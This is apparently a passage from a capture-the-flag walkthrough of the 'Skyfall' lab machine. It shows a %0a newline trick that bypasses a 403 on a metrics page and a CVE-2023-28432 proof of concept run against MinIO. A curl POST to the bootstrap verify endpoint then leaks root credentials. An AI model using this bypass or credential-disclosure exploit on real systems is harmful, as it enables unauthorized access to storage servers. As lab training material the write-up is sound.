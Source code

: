 
Once logged in we see that the website is powered by flask.
![Pasted image 20240713215151.png](/images/Pasted image 20240713215151.png){: .normal }


When visiting the metrics page we get a 403 forbidden error.
![Pasted image 20240713215155.png](/images/Pasted image 20240713215155.png){: .normal }


We can bypass this by adding %0a at the end of the url.
![Pasted image 20240713215159.png](/images/Pasted image 20240713215159.png){: .normal }


At the bottom of the page we find the following subdomain.
```bash
<http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster>
```


Modify hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.10.11.254 skyfall.htb demo.skyfall.htb prd23-s3-backend.skyfall.htb
```


Whilst visiting the endpoint page found in the /metrics page we find out that minio is running on the system, we can use the following: [PoC](https://github.com/acheiii/CVE-2023-28432?tab=readme-ov-file) to find a vulnerable URL that will disclose credentials.
```bash
┌──(kali㉿kali)-[~]
└─$ cat urls.txt                                                              
<http://prd23-s3-backend.skyfall.htb>

┌──(kali㉿kali)-[~]
└─$ python3 cve.py                                    
Found a vulnerable URL: <http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify>
```


Now when we send a POST request to this url we will get credentials.
```bash
┌──(kali㉿kali)-[~]
└─$ curl -X POST <http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify>
{"MinioEndpoints":[{"Legacy":false,"SetCount":1,"DrivesPerSet":4,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"<http://minio-node>{1...2}/data{1...2}","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_BROWSER":"off","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_PROMETHEUS_AUTH_TYPE":"public","MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key","MINIO_UPDATE":"off","MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"}}

MINIO_ROOT_USER: 5GrE1B2YGGyZzNHZaIww
MINIO_ROOT_PASSWORD: GkpjkmiVmpFuL2d3oRx0
```
